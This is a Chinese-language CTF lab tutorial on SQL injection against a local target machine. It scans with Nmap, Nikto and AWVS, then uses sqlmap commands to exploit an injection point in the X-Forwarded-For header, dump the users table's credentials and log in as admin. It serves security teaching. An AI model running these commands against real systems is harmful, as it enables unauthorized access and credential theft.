# CTF夺旗赛教程：P14：16. CTF夺旗 - SQL注入实战



在本节课中，我们将学习如何在一个实际的CTF靶场环境中，利用SQL注入漏洞获取后台管理员权限。整个过程将涵盖信息收集、漏洞扫描、漏洞利用和最终登录。

## 概述与实验环境


SQL注入是Web安全中一个非常重要的知识点。该漏洞允许攻击者通过构造特殊的输入参数，使Web应用程序执行非预期的SQL语句，从而实现非法数据入侵。



**核心概念**：当用户输入被直接拼接到SQL查询语句中且未经过滤时，就可能产生SQL注入漏洞。其基本形式可表示为：
`SELECT * FROM users WHERE username = ‘“ + userInput + ”’`

在本实验环境中，我们有两台机器：
*   **攻击机 (Kali Linux)**：IP地址为 `192.168.1.104`。
*   **靶场机器**：IP地址为 `192.168.1.105`。

我们的目标是挖掘靶场Web应用的漏洞，最终获得系统后台的登录权限。


## 第一步：信息探测

在开始攻击之前，我们需要了解目标系统运行的服务及其版本信息。这里我们使用 `Nmap` 工具进行扫描。



以下是使用Nmap进行扫描的基本命令：
```bash
# 基础服务与版本扫描
nmap -sS -sV 192.168.1.105



# 全面扫描（加载所有脚本，详细输出）
nmap -T4 -A -v 192.168.1.105
```
*   `-T4`：设置扫描速度为快速模式。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。

扫描结果显示，靶场只开放了80端口的HTTP服务，服务器为Nginx。







## 第二步：发现敏感页面



在确定了Web服务后，我们需要寻找可能的后台登录入口等敏感页面。这里使用 `Nikto` 工具进行Web敏感信息扫描。





操作命令如下：
```bash
nikto -h http://192.168.1.105
```
扫描结果中，我们发现了一个管理员登录页面 (`/admin/login.php`)。通过浏览器访问该页面，尝试常用弱口令（如 `admin/admin`, `admin/123456`）均告失败，因此我们转向寻找安全漏洞。

## 第三步：漏洞扫描

为了系统性地发现Web应用漏洞，我们使用功能强大的漏洞扫描器 `AWVS` (Acunetix)。



以下是使用AWVS的步骤：
1.  在AWVS中添加新目标，地址为 `http://192.168.1.105`。
2.  选择“Full Scan”（完全扫描）模式并开始扫描。
3.  等待扫描完成并分析报告。



扫描过程中，AWVS报告了一个**高危漏洞：SQL盲注**。漏洞细节指出，在HTTP请求头的 `X-Forwarded-For` 字段存在注入点。

## 第四步：漏洞利用与数据提取

发现SQL注入点后，我们使用自动化注入工具 `SQLmap` 来利用此漏洞并提取数据库信息。

首先，我们根据AWVS的发现，构造命令来探测数据库名：
```bash
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” --dbs --batch
```
*   `-u`：指定目标URL。
*   `--headers`：指定存在注入点的HTTP头，`*` 号标记了注入位置。
*   `--dbs`：枚举数据库。
*   `--batch`：以非交互模式运行，自动选择默认选项。

SQLmap成功列出了两个数据库：`information_schema` (系统库) 和 `photoblog` (用户库)。

接下来，我们针对 `photoblog` 数据库进行深入探测：
```bash
# 1. 列出数据库中的所有表
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” -D photoblog --tables --batch

# 2. 列出`users`表的所有列（字段）
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” -D photoblog -T users --columns --batch

# 3. 导出`users`表中`login`和`password`字段的数据
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” -D photoblog -T users -C “login,password” --dump --batch
```
通过以上步骤，SQLmap最终提取出了管理员凭据：
*   **用户名 (login)**: `admin`
*   **密码 (password)**: `P4SSW0RD` (此密文被SQLmap自动破解为明文)

## 第五步：登录后台

获得凭证后，我们返回之前发现的登录页面 (`/admin/login.php`)，使用用户名 `admin` 和密码 `P4SSW0RD` 进行登录。

登录成功，我们进入了系统后台，至此已完全实现本节课的目标——通过SQL注入漏洞获取系统后台权限。

## 总结

本节课我们一起完成了一次完整的SQL注入实战。我们首先使用Nmap和Nikto进行信息收集，然后利用AWVS扫描出隐藏在HTTP头 `X-Forwarded-For` 中的SQL盲注漏洞，最后借助SQLmap工具自动化地利用该漏洞，提取数据库中的管理员账号密码，成功登录系统后台。




通过这个案例，我们可以深刻理解：**SQL注入可能发生在任何用户可输入或可控的位置**，包括URL参数、表单字段，甚至像HTTP头这样不太起眼的地方。在CTF比赛或实际安全测试中，合理利用自动化工具可以极大提升效率。